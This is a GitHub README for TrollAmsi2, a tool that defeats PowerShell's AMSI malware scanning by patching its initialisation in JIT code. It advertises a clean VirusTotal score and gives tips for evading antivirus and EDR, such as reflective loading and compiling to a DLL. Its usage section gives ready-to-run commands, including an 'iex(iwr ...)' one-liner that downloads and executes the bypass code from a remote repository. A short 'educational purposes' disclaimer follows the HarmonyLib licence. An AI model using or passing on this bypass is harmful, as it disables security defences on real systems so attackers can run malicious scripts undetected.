 # TrollAmsi2
Bypass powershell amsi by "byte patching" the init method -> basically break it. <br>
Afterwhich, we manually call UnInit and when it retries to re-Init properly, it fails <br>
Patches JIT code so slightly more stealthy than patching amsi.dll BUT uses the same patching techniques which may get flagged (eg. virtualprotect) <br>

**DLL Method (uses uses HarmonyLib )**
- TrollAmsi2.cs -> compile into a .dll and use with 0Harmony.dll
-  Both dll are 0/72 on virus total and clean on hybrid-analysis
- If you are concerned with dropping on disk, ofcourse you can reflectively load 

**powershell one liner**
- trollamsi2.ps1 -> can run directly on powershell
- Not as stealthy as TrollAMSI due to the use of VirtualProtect which gets flagged by some AV/EDRs during the $lib add-type
- if flagged, use the c# code in the same file and compile into dll and use. Higher chance of success
  
## Usage 
```
#DLL method 
$assembly = [System.Reflection.Assembly]::LoadFrom("C:\0Harmony.dll")
$code = (iwr https://github.com/cybersectroll/TrollAmsi2/raw/refs/heads/main/TrollAmsi2.cs -UseBasicParsing).content
Add-Type -TypeDefinition $code -ReferencedAssemblies "C:\0Harmony.dll"
[TrollAmsi2]::SmokeOut()

#powershell one liner
iex(iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI2/refs/heads/main/TrollAmsi2.cs -UseBasicParsing).content
```

## MIT License for HarmonyLib
MIT License

Copyright (c) 2017 Andreas Pardeike

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer
Should only be used for educational purposes!
